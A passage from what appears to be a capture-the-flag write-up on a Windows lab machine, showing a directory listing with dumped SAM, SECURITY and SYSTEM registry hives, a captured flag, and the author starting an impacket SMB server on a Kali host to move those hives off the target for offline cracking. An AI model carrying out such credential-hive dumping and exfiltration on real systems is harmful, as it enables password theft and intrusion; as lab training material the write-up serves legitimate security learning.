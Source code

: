 ```powershell

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  01:27 PM                24 flag1.txt
07/13/2009  09:20 PM    <DIR>          PerfLogs
04/12/2011  02:28 AM    <DIR>          Program Files
03/17/2019  04:28 PM    <DIR>          Program Files (x86)
11/10/2020  10:18 PM            24,576 sam.save
11/10/2020  10:18 PM            24,576 security.save
11/10/2020  10:19 PM        12,353,536 system.save
12/12/2018  09:13 PM    <DIR>          Users
03/17/2019  04:36 PM    <DIR>          Windows
               4 File(s)     12,402,712 bytes
               5 Dir(s)  20,753,133,568 bytes free

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
C:\>
```

The first step was identifying the local users and attempting to dump some crucial registers that I could attack offline. While doing this I happened to dump these registry hives to the root of the `C:\` drive which happened to point out the first flag `flag{access_the_machine}`. In hindsight this was probably a poor choice of location as it would be much more likely to be caught here than in other locations.

Now that I had the hives dumped on disk I still needed to figure out how to egress them to my local machine for further attack. This lead me to reference an example from [ropnop's blog](https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb) pointing me towards the impacket-smbserver which comes preinstalled on Kali. I could interact with SMB from the cmd shell with out the need for an interactive shell or any other tools.

```bash
root@kali:~/# mkdir -p ctf/extractor && cd ctf/extractor

root@kali:~/ctf/extractor# impacket-smbserver BLUE $PWD
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

root@kali:~# netstat -plunt | grep 445
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      1428/python3
```
